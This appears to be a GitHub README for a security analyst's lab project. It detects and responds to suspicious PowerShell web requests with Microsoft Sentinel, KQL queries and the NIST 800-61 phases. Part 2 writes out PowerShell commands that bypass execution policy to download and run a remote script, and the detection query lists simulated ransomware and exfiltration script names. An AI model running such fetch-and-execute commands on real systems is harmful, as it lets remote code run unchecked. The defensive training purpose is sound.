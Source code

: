 # Incident-Response-PowerShell-Suspicious-Web-Request-NIST-800-61

![maxresdefault](https://github.com/user-attachments/assets/558ecbf6-9f87-49e7-8ba5-4a887e417840)

# Felipe Restrepo - Incident Response Project: PowerShell Suspicious Web Request

![1_H8m1AnUcij509FjfffrQ4w](https://github.com/user-attachments/assets/49cf05ff-84b1-4c26-8f68-0a0662b26d38)

# Explanation
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed/run on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the DeviceProcessEvents table. These logs are then forwarded to the Log Analytics Workspace being used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet. 

![Screenshot 2025-06-25 003037](https://github.com/user-attachments/assets/ef91ba7b-99fa-489b-84f2-de5439d8f486)

## 📌 Overview
This Microsoft Sentinel project demonstrates a real-world incident response scenario where PowerShell is abused by an attacker to download potentially malicious scripts using `Invoke-WebRequest`. It walks through every phase of the NIST 800-61 Incident Response Lifecycle and shows how to:

- Detect the suspicious behavior
- Automate alerting and incident generation
- Investigate and analyze
- Contain and recover
- Document findings and improve defenses

---

## 🔍 Step-by-Step Implementation

### ✅ Part 1: Create Alert Rule - PowerShell Suspicious Web Request

![Screenshot 2025-06-24 234055](https://github.com/user-attachments/assets/1aadda59-905b-48d9-a49e-80082432cdf1)

**Purpose:** Detect when PowerShell is used to download files using `Invoke-WebRequest`, signaling possible attacker activity.

**Rule Details:**
- **Name:** Felipe Restrepo - PowerShell Suspicious Web Request
- **Severity:** Medium
- **MITRE ATT&CK:**
  - T1071.001 – Web Protocols
  - T1105 – Ingress Tool Transfer
  - T1203 – Exploitation for Client Execution
  - T1041 – Exfiltration Over C2

![Screenshot 2025-06-24 234237](https://github.com/user-attachments/assets/cc3c270f-d6ff-4279-88f9-dfec5deeb90e)
![Screenshot 2025-06-24 234305](https://github.com/user-attachments/assets/34f16295-add7-4e24-94d1-c9a14b4ea98f)
![Screenshot 2025-06-24 234328](https://github.com/user-attachments/assets/6783eed8-1419-4337-bd55-b0f19ec22298)
![Screenshot 2025-06-24 234354](https://github.com/user-attachments/assets/0911b21c-7516-49f1-a39c-96af079259d2)

**KQL Detection Query:**
```kql
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "invoke-WebRequest"
```
![image](https://github.com/user-attachments/assets/b35df73c-385d-4270-88e2-d8505cba2840)

- **Entity Mapping:**
  - Account → AccountName
  - Host → DeviceName
  - Process → ProcessCommandLine

![Screenshot 2025-06-24 234645](https://github.com/user-attachments/assets/d8c4abf2-1602-4244-bcb8-0dd5bdced36c)

- **Query Schedule:** Every 4 hours, looking back 24 hours

![Screenshot 2025-06-24 234716](https://github.com/user-attachments/assets/da49f487-065f-4455-a9f2-9a58bd509126)

- **Alert threshold:** Is greater than 0

![Screenshot 2025-06-24 234723](https://github.com/user-attachments/assets/6e50c1d3-fc62-4923-bd82-e934bb148e45)

- **Suppression:** Enabled for 24 hours

![Screenshot 2025-06-24 234742](https://github.com/user-attachments/assets/30152700-f6b1-4a5a-aca9-2b18b6926315)

- **Alert Grouping**: Enabled

![Screenshot 2025-06-24 234800](https://github.com/user-attachments/assets/1f3d2470-4461-4ee5-97e1-5c1cfaf79830)

- **Rule Created and Actived by me who owns it**
![Screenshot 2025-06-24 234832](https://github.com/user-attachments/assets/212fb1fb-349e-42ac-9108-0a275b1d46f9)
![Screenshot 2025-06-24 235240](https://github.com/user-attachments/assets/07c7b81d-8d5d-4c85-92fe-52e8af568b7b)

---

### 🛑 Part 2: Trigger Alert & Create Incident

**Purpose:** Generate logs by executing PowerShell web requests, which will trigger the alert rule in Sentinel.

**PowerShell Commands to Run on VM:**
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```
**Result:** Microsoft Sentinel triggers the scheduled query and creates an incident.

---

### 🔎 Part 3: Investigate and Analyze the Incident

**Actions Taken:**
1. Alert was triggered on `windows-target-1`.
2. Entity mappings showed the account and command line activity.
3. User claimed they had installed free software before event.
4. Defender for Endpoint showed:

**KQL to Confirm Execution of Scripts:**
```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

![Screenshot 2025-06-25 001034](https://github.com/user-attachments/assets/91a00692-083c-4b29-8ff8-477de82106b5)

**🔎Investigated in the Investigation page for better analysis**

![Screenshot 2025-06-24 235327](https://github.com/user-attachments/assets/45bfd65a-e1f2-42c2-8147-b855e47d3c6c)
![Screenshot 2025-06-24 235648](https://github.com/user-attachments/assets/17eb0586-3194-444e-88fb-7b0335d7d6c8)


**Summary of Detected Scripts:**
| Script | Description |
|--------|-------------|
| `portscan.ps1` | Simulates a port scan |
| `pwncrypt.ps1` | Simulates ransomware-like encryption |
| `eicar.ps1` | Triggers antivirus as a test |
| `exfiltratedata.ps1` | Simulates data exfiltration |

---

### 🔒 Part 4: Containment, Eradication, and Recovery

**Actions:**
- Isolated VM in Microsoft Defender for Endpoint (MDE)
![Screenshot 2025-06-25 001624](https://github.com/user-attachments/assets/95d9320a-ee4b-4fe8-b894-2f2110cbaa99)

- Ran antivirus scan

![Screenshot 2025-06-25 001631](https://github.com/user-attachments/assets/3e522f68-c2e1-4eb6-8763-5e20119e8f75)

- Removed isolation after VM came back clean

---

### 📘 Part 5: Post-Incident Activities

**Notes and Improvements:**
- Updated PowerShell policy to restrict use to admins only
- Enrolled user in advanced cybersecurity awareness training (via KnowBe4)

---

### 🧹 Part 6: Process Closed and Cleaned Up

**After adding the notes to the incident I closed the case to show that I was able Respond to the Incident**

![Screenshot 2025-06-25 004354](https://github.com/user-attachments/assets/91ceca36-e86e-40dc-bc59-d9e967c5d46b)
![Screenshot 2025-06-25 004532](https://github.com/user-attachments/assets/1f4dc191-7480-4a76-8088-a66253e10c2a)

---

## 📌 Final Notes:
- This project is based on Felipe Restrepo's real-world detection and incident response case using Microsoft Sentinel.
- It emphasizes a full detection-to-resolution workflow with hands-on implementation of a MITRE-aligned use case.
- Ideal for security analyst portfolios or blue team practice labs.

---

### 📎 References
- Microsoft Sentinel documentation
- MITRE ATT&CK Framework
- Josh Madakor Cyber Range Scripts
- NIST 800-61: Computer Security Incident Handling Guide
